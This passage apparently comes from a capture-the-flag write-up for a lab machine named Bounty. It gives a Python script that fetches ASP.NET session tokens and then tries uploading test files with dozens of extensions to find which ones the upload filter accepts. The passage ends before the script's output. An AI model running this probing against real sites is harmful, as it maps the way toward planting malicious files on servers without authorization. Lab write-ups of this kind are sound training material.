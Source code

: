 ![html](./bounty/html.png)

There are 4 values to send in the HTTP POST request. 2 of them, `__VIEWSTATE` and `__EVENTVALIDATION`, are generated tokens for each request. So they need to be fetched in an HTTP GET request first. This list can now be tested in the following Python script:

```python
import io
import re
import requests

ext = '.asax,.ascx,.ashx,.asmx,.aspx,.axd,.browser,.cd,.compile,.config,.cs,.jsl,.vb,.csproj,.vbproj,vjsproj,.disco,.vsdisco,.dsdgm,.dsprototype,.dll,.licx,.webinfo,.master,.mdb,.ldb,.mdf,.msgx,.svc,.rem,.resources,.resx,.sdm,.sdmDocument,.sitemap,.skin,.sln,.soap,.asa,.asp,.cdx,.cer,.idc,.shtm,.shtml,.stm,.css,.htm,.html'

for e in ext.split(','):
  print(f'[*] trying {e} ...')
  s = requests.Session()
  r = s.get('http://10.10.10.93/transfer.aspx')
  __viewstate = re.findall(r'id="__VIEWSTATE" value="(.*)"', r.text)
  __eventvalidation = re.findall(r'id="__EVENTVALIDATION" value="(.*)"', r.text)
  if not __viewstate or not __eventvalidation:
    print(f'[-] failed to get session values: __VIEWSTATE, __EVENTVALIDATION')
    exit()
  # create an in-memory file to send
  r = requests.post('http://10.10.10.93/transfer.aspx', files=[
        # use a generic MIME type: 
        # https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types
        ('FileUpload1', (f'file{e}', io.StringIO('test'), 'application/octet-stream'))
      ], data={
        'btnUpload': 'Upload',
        '__VIEWSTATE': __viewstate[0],
        '__EVENTVALIDATION': __eventvalidation[0],
      })
  if 'Invalid File. Please try again' not in r.text:
    print('[*] --> file was uploaded!')
```

An running this script generates the following output:
